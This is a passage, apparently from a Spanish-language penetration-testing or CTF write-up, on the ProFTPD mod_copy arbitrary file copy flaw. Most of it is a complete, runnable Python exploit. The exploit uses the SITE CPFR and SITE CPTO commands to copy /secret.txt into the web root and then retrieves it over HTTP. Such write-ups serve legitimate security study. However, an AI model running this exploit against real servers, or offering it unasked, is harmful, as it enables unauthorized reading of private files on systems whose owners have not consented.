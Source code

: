 - **Componente Afectado**: Módulo `mod_copy` de ProFTPD
- **Tipo de Vulnerabilidad**: Remote Code Execution / Arbitrary File Copy
- **Vector de Ataque**: Comandos FTP `SITE CPFR` y `SITE CPTO`
- **Impacto**: Permite copiar archivos arbitrarios del sistema a ubicaciones accesibles

## 4. Explotación

### 4.1 Desarrollo del Exploit

Creamos una versión modificada del exploit `49908.py` para objetivar específicamente `/secret.txt`:

```python
#!/usr/bin/env python3
import socket
import sys
import requests

def exploit(target):
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect((target, 21))
    
    # Recibir banner FTP
    banner = client.recv(1024)
    print(f"[+] Banner: {banner.decode().strip()}")
    
    # 1. Copiar /secret.txt (CPFR = Copy From)
    client.send(b"SITE CPFR /secret.txt\r\n")
    resp = client.recv(1024)
    print(f"[+] CPFR response: {resp.decode().strip()}")
    
    # 2. Escribirlo al directorio web (CPTO = Copy To)
    client.send(b"SITE CPTO /var/www/html/secret.txt\r\n")
    resp = client.recv(1024)
    print(f"[+] CPTO response: {resp.decode().strip()}")
    
    client.close()
    print("[+] Comandos del exploit enviados exitosamente.")

    # 3. Verificar si el archivo es accesible vía HTTP
    url = f"http://{target}/secret.txt"
    try:
        r = requests.get(url)
        if r.status_code == 200:
            print(f"[+] Secreto disponible en {url}\n")
            print("----- CONTENIDO DEL SECRETO INICIO -----")
            print(r.text)
            print("------ CONTENIDO DEL SECRETO FIN ------")
        else:
            print("[!] Archivo no accesible vía HTTP. Probar otra ruta.")
    except Exception as e:
        print(f"[!] Error al obtener el secreto: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Uso: python3 {sys.argv[0]} <target-ip>")
        sys.exit(1)
    target_ip = sys.argv[1]
    exploit(target_ip)
```

